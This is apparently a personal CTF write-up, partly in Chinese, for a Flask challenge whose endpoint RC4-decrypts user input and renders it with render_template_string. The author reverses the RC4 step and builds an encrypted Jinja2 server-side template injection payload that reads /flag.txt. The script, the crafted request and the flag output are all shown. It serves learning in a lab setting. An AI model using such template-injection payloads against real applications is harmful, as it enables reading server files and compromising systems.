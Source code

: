 ![](<./img/Pasted image 20230126100744.png>)

```
/
```

```
Welcome To Find Secret
```

```
/robots.txt
```

```
It is Android ctf
```

![](<./img/Pasted image 20230126103511.png>)

```
/secret
```

```
Tell me your secret.I will encrypt it so others can't see
```

```
/secret?secret=a
```

```
4
```

```
/secret?secret=4
```

```
a
```

```
/secret?secret=hello
```

![](<./img/Pasted image 20230126135545.png>)

```python
if (secret==None):
	return 'Tell me your secret.I will encrypt it so others can\'t see'
rc=rc4_Modified.RC4("HereIsTreasure")   #解密
deS=rc.do_crypt(secret)

a=render_template_string(safe(deS))

if 'ciscn' in a.lower():
	return 'flag detected!'
return a
```

是没有见过的加密方式qaq

[RC4加密法](https://zh.wikipedia.org/zh-cn/RC4)

![](<./img/Pasted image 20230126103403.png>)

对称性好可爱～

```python
from urllib.parse import quote,unquote

s_box = [i for i in range(256)]
key = "HereIsTreasure"
j = 0
for i in range(256):
    j = (j + s_box[i] + ord(key[i % len(key)])) % 256
    s_box[i], s_box[j] = s_box[j], s_box[i]

i = 0
j = 0
content = "{{url_for.__globals__['__builtins__']['open']('/flag.txt').read()}}"
k = ""
for ch in content:
    i = (i + 1) % 256
    j = (j + s_box[i]) % 256
    s_box[i], s_box[j] = s_box[j], s_box[i]
    k += chr(ord(ch) ^ s_box[(s_box[i] + s_box[j]) % 256])
print(quote(k))
```

```
/secret?secret=.%14LG%C2%A68%0Day%C3%93%C3%A7%2C%C2%B9%C2%BE%C3%B9%C2%AA5%C2%9FG%0B%C2%88i%C2%A7M5%C2%93-%C2%80%5E%C3%98%3B%C3%A9%3E%C2%B4r%C2%915%C3%8Ao%C3%ABk%C3%9F%C2%83%C2%A5PF%C3%BAU%C2%A3%C2%B1Gk%2C%C3%BF2x%C3%90v%06%C3%96%C2%BCK%15%C2%BD%C3%9D%04%C2%A7
```

```
'read' is not allowed. Secret is flag{bff8e2e3-a9e1-4574-bb7a-abab391e8b66} 
```

#Web #python #flask #SSTI #rc4